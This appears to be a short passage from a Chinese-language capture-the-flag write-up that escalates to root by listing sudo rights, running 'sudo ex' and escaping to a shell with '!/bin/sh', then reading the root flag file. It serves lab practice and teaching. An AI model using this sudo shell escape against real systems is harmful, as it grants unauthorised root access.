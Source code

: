 



### 执行sudo -l

```
sudo -l
```

![image-20250321154043692](assets/image-20250321154043692.png)



### ex提权

```
sudo ex
!/bin/sh
whoami
```

![image-20250321154103992](assets/image-20250321154103992.png)



### 得到flag

```
cd /root
ls -al
cat root.txt
```

![image-20250321154129337](assets/image-20250321154129337.png)

